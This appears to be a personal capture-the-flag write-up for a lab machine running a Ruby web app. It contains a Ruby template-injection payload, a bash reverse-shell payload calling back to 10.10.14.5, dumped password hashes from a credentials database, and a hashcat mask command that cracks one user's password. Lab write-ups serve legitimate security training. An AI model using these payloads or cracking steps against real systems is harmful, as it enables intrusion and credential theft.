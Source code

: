 First go to the URL in Burp.
```
http://10.129.229.121/weighted-grade
```
Single encoding doesn't work
![[Pasted image 20240605172257.png]]
LEt's double encode. 
![[Pasted image 20240605172413.png]]
Still doesn't work.
Changing the content type doesn't work. 
![[Pasted image 20240605172609.png]]
OK SO Let's try putting in a return key.
![[Pasted image 20240605172938.png]]
Back to the drawing board. 
We note that the programming language used in the site is ruby.
![[Pasted image 20240605174115.png]]
Therefore we can try some ruby exploits.  The first few don't work on the Hacktricks site:
[SSTI (Server Side Template Injection) | HackTricks | HackTricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)
Using cyberchef we attempt:
```ruby
<%= system("whoami") %>
```
Which encodes to 
```html
3c%25%3d%20%73%79%73%74%65%6d%28%22%77%68%6f%61%6d%69%22%29%20%25%3e
```
Finally, a response,  it responds with "true"
So let's do some more bullshit and try to get a reverse shell. 
Let's do a generic one.
```ruby
<%= system("bash -c 'bash -i >& /dev/tcp/10.10.14.5/8008 0>&1'") %>
```
encodes to
```
3c%25%3d%20%73%79%73%74%65%6d%28%22%62%61%73%68%20%2d%63%20%27%62%61%73%68%20%2d%69%20%3e%26%20%2f%64%65%76%2f%74%63%70%2f%31%30%2e%31%30%2e%31%34%2e%35%2f%38%30%30%38%20%30%3e%26%31%27%22%29%20%25%3e
```
BOOM shell

### ROOT
We note in the home directory there is a credentials db for pupilpath. 
We also see htat this is running sqlite3.
```sh
ls /bin/ | grep sql
```
So we now have some stuff
```sqlite
sqlite3 /home/susan/Migration/pupilpath_credentials.db
.databases
.tables
select * from users;
```
aaand we have hashes! woot.
ok. let's decrypt these. 

```
1|Susan Miller|abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f
2|Tina Smith|dd560928c97354e3c22972554c81901b74ad1b35f726a11654b78cd6fd8cec57
3|Harry Tyler|d33a689526d49d32a01986ef5a1a3d2afc0aaee48978f06139779904af7a6393
4|David Lawrence|ff7aedd2f4512ee1848a3e18f86c4450c1c76f5c6e27cd8b0dc05557b344b87a
5|Stephen Locke|154a38b253b4e08cba818ff65eb4413f20518655950b9a39964c18d7737d9bb8
```
We find rockyou doesn't decrypt these as is. 
So let's see if we can find how the passwords are formatted. 
Within /var/spool/mail
There's a file called susan.
It says:
```sh
Due to our transition to Jupiter Grades because of the PupilPath data breach, I thought we should also migrate our credentials ('our' including the other students

in our class) to the new platform. I also suggest a new password specification, to make things easier for everyone. The password format is:

{firstname}_{firstname backwards}_{randomly generated integer between 1 and 1,000,000,000}

Note that all letters of the first name should be convered into lowercase.

Please hit me with updates on the migration when you can. I am currently registering our university with the platform.

```
OK
So we can crackz
```sh
hashcat -m 1400 abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f -a 3 susan_nasus_?d?d?d?d?d?d?d?d?d
```

And password:
susan_nasus_413759210